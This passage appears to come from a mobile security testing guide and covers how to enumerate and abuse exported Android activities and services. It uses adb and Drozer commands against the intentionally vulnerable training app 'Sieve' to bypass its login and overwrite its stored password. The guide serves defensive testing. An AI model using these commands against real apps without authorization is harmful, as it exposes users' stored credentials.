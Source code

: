 You can identify an exported activity using one of the following properties:

- It have an `intent-filter` sub declaration.
- It have the attribute `android:exported` to `0xffffffff`.

You can also use [jadx](https://mas.owasp.org/MASTG/Tools/0x08a-Testing-Tools#jadx "jadx" "jadx") to identify exported activities in the file `AndroidManifest.xml` using the criteria described above:

`<?xml version="1.0" encoding="utf-8"?> <manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.mwr.example.sieve"> ...   <!-- This activity is exported via the attribute "exported" -->   <activity android:name=".FileSelectActivity" android:exported="true" />    <!-- This activity is exported via the "intent-filter" declaration  -->   <activity android:name=".MainLoginActivity">     <intent-filter>       <action android:name="android.intent.action.MAIN"/>       <category android:name="android.intent.category.LAUNCHER"/>     </intent-filter>   </activity>   <!-- This activity is exported via the attribute "exported" -->   <activity android:name=".PWList" android:exported="true" />   <!-- Activities below are not exported -->   <activity android:name=".SettingsActivity" />   <activity android:name=".AddEntryActivity"/>   <activity android:name=".ShortLoginActivity" />   <activity android:name=".WelcomeActivity" />   <activity android:name=".PINActivity" /> ... </manifest>`

Enumerating activities in the vulnerable password manager "Sieve" shows that the following activities are exported:

- `.MainLoginActivity`
- `.PWList`
- `.FileSelectActivity`

Use the command below to launch an activity:

`# Start the activity without specifying an action or an category $ adb shell am start -n com.mwr.example.sieve/.PWList Starting: Intent { cmp=com.mwr.example.sieve/.PWList }  # Start the activity indicating an action (-a) and an category (-c) $ adb shell am start -n "com.mwr.example.sieve/.MainLoginActivity" -a android.intent.action.MAIN -c android.intent.category.LAUNCHER Starting: Intent { act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER] cmp=com.mwr.example.sieve/.MainLoginActivity }`

Since the activity `.PWList` is called directly in this example, you can use it to bypass the login form protecting the password manager, and access the data contained within the password manager.

### Services

Services can be enumerated with the Drozer module `app.service.info`:

`dz> run app.service.info -a com.mwr.example.sieve Package: com.mwr.example.sieve   com.mwr.example.sieve.AuthService     Permission: null   com.mwr.example.sieve.CryptoService     Permission: null`

To communicate with a service, you must first use static analysis to identify the required inputs.

Because this service is exported, you can use the module `app.service.send` to communicate with the service and change the password stored in the target application:

`dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:   what: 4   arg1: 42   arg2: 0   Empty`

### Broadcast Receivers
